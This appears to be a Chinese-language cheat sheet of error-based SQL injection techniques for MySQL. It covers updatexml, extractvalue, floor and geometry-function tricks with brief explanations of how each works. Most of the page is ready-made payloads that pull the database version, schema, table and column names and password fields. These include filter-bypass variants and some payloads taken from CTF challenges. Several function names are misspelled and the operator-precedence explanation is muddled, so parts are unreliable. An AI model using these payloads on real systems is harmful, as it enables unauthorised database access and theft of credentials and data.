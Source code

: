 利用报错回显敏感的sql注入
常利用函数：updatexml、floor、exp、extractvalue、join
* floor
* exp
* extractvalue
* updatexml
* name_const
* join
* geometrycollecion
* polygon
* multipoint
* multinestring
* multpolygon
* linesring



AND OR优先级比两边低，导致了会先执行错误语句报错。
在 SQL 中，`AND` 和 `OR` 操作符的优先级比算术运算符（如加法 `+`、乘法 `*`）的优先级要低。这意味着在没有括号明确指定操作顺序的情况下，算术运算会先于逻辑运算执行。



## **updatexml**
原理：
updatexml（）一共有三个参数，第一个是xml内容、第二个参数是update的位置XPATH路径、第三个参数是更新后的内容；这里报错的主要原理是利用第二个参数，当其校验输入的内容是否符合XPATH路径格式的时候，不符合就报错，一般书写在路径位置为特殊符号0x7e，即可使得出现报错。同时第二个参数加入version（）或者database（）等等，因为不满足XPATH格式所以会输出错误，输出错误的时候将sql代码顺便（verson()，database()等）执行了。
```
payload:
//查询当前MySQL版本
'and updatexml(1,concat(0x7e,(select @@version)),1) or '1'='1
'or updatexml(1,concat(0x7e,(select @@version),0x7e),1) or '
//查询当前数据库名
'and updatexml(1,concat(0x7e,(select database())),1) or '1'='1
'and updatexml(1,concat(0x7e,(select database(),0x7e),1) or '1'='1
//查询表名（当前数据库下的）
'and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1) or '1'='1
//查询字段名(users表中的)
'and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'),0x7e),1) or '1'='1
'and updatexml(1,concat(0x7e,(SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'adopt_admin' ),1),1) or '1'='1

基于insert/update下的报错
'or updatexml(1,concat(0x7e,(select @@version),0x7e),1) or '
基于delete下的报错
'or updatexml(1,concat(0x7e,(select @@version),0x7e),1)

正则过滤
123"||(updatexml(1,(select(real_flag_1s_here)from(users)where(real_flag_1s_here)regexp('^f')),1))#
限制32位长度，倒序输出后面内容
123"||(updatexml(1,concat('~',reverse((select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f')))),1))#
```

## **extractvalue**
原理：与updatexml类似，第二个参数路径错误。
```
'and extractvalue(1,concat(0x7e,(select @@version))) #


过滤空格用括号()，过滤=用like

?username=admin&password=admin'^extractvalue(1,concat(0x5c,(select(database()))))%23
查出库名geek

?username=admin&password=admin'^extractvalue(1,concat(0x5c,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like('geek'))))%23
查出表名：H4rDsq1



?username=admin&password=admin'^extractvalue(1,concat(0x5c,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1'))))%23
查出有password字段



?username=admin&password=admin%27^extractvalue(1,concat(0x7e,(select(left(password,30))from(geek.H4rDsq1))))%23

extractvalue函数只能30字符，先做，后右。

?username=admin&password=admin%27^extractvalue(1,concat(0x7e,(select(right(password,30))from(geek.H4rDsq1))))%23
```

## **floor**
```
and (select count(*) floor(rand(14)*2) as a from users group by a);

select * from test where id=1 and (select 1 from (select count(*), concat(user(),floor(rand(0)*2)) as x from information_schema.tables group by x)a) 
```
原理：
group进行分组，count进行统计，rand进行创建随机数并且是第十四次，然后乘以2，用floor进行向下取整，然后得到1010，进行分组排序的时候，系统会先生成一个虚拟表，然后是主键和值，通过查询floor(rand(14)\*2)得到结果是1，然后发现自己得虚拟表中没有，插入虚拟表中得主键，然后在插入得时候，表达式会再次执行一遍，实际插入到里面得是零，然后第二次，插入是1，发现表中没有，在插入得时候再次运行，实习插入主键得是0，**两个主键0**，因此报错。

必要条件：
数据库得数据必须得大于2才能执行



^
## **报错注入绕过**
```
1 AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x7e,(SELECT database()),0x7e,0x78))s), 8446744073709551610, 8446744073709551610)))



' and ST_Pointfromgeohash(current_user())--+
' || ST_Pointfromgeohash()--+
' || ST_Pointfromgeohash()#


order by GTID_SUBSET((version(),1))
```